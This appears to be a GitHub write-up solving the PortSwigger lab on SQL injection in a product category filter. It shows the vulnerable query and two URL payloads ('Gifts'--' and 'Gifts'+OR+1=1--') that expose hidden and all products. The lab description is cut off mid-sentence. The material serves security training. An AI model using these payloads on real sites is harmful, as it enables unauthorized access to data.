 
# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection atta

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection

---------------------------------------------

When the buttons are clicked it is filtered by category:



![img](images/SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/1.png)

This is done with a GET request:



![img](images/SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/2.png)

Using the following payload we get 4 items instead of only 3, because it shows both the released and the hidden one:

```
/filter?category=Gifts'-- 
```



![img](images/SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/3.png)

To show all values we add OR 1=1 to display all categories:

```
/filter?category=Gifts'+OR+1=1--
```



![img](images/SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/4.png)
